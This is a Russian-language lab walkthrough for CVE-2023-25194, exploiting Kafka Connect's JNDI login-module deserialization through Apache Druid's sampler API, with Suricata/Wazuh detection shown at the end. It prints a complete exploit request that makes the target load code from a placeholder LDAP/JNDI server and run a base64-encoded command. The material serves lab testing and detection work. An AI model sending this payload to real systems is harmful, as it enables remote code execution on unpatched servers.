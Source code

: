 # CVE-2023-25194

Apache Kafka — это платформа с открытым исходным кодом, которая используется для потоковой передачи и обработки данных в реальном времени.

В API Apache Kafka Connect обнаружена возможная уязвимость, для которой требуется доступ к рабочему процессу Kafka Connect и возможность создавать/изменять на нем коннекторы с помощью произвольной конфигурации SASL JAAS клиента Kafka и протокола безопасности на основе SASL, что стало возможным в кластерах Kafka Connect начиная с Apache Kafka Connect 2.3.0. Злоумышленник может вызвать неограниченную десериализацию ненадежных данных или уязвимость RCE, если в пути к классам есть гаджеты.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После успешного запуска по адресу http://ваш-ip:8888 будет доступна домашняя страница Apache Druid

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Для начала запустите JNDI-сервер с помощью [JNDIExploit](https://github.com/vulhub/JNDIExploit)

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Затем отправьте соответствующий запрос на уязвимый хост:

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: ваш-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://jndi-сервер-ip:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3MK\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

> Здесь "aWQgPiAvdG1wL3N1Y2Nlc3MK" - полезная нагрузка "id > /tmp/success", закодированная в base64
>
>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

После отправки запроса на уязвимом хосте создался файл /tmp/success с выводом результата команды id&#x20;

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

Suricata определила это как эксплуатацию уязвимости CVE-2021-44228 (Log4Shell)

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
